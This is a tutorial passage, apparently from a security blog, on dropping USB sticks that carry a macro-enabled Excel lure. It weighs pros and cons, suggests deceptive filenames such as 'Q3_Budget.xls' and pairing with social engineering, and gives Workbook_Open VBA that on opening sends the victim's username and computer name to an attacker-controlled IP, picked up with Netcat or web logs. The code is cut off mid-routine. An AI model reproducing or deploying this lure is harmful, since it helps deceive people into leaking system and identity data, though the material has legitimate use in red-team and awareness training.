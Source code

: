 How it works  

There's code in the macro that phones home with username, computer name, and USB description. The attacking machine can listen on a port with Netcat or just look at web server logs.  

- Pros
  - Microsoft Office is widely used, so less suspicion 
  - Detailed computer and user information is returned
  - Many enticing filenames can be used
  - Easily combined with social engineering techniques
  - Use off the shelf USB’s, no HID’s
- Cons
  - User has to open a file AND enable a macro
  - Some antivirus can pick up payloads
  - Microsoft issues warnings on enabling macros
  - Common attack which users may have heard about

How to do it (Excel Example)

File preparation

- Create an excel file and name it something appropriate
  - Example: Q3_Budget.xls
- On the “Developer” tab, select “Visual Basic”  
![Excel Developer Button](/assets/images/excel_developer_vb.jpg)  

**Side-Note:** If you don't have the developer button you'll have to add it by right-clicking the menu bar and checking the checkbox beside "Developer" on the right-hand window pane.
{: .notice--info}  

- Select “ThisWorkbook” in the project pane (top-left)
- Insert the following code in the main window

```
Sub Workbook_Open()
 Set IEapp = CreateObject("InternetExplorer.Application")
 
 Dim username
 username = (Environ$("Username"))
 Dim computername
 computername = Environ$("computername")
 WebUrl = "http://<ATTACKING_IP>/<USB_DESCRIPTION>?user=" & username & "&computername=" & computername
 
 IEapp.navigate WebUrl
```  
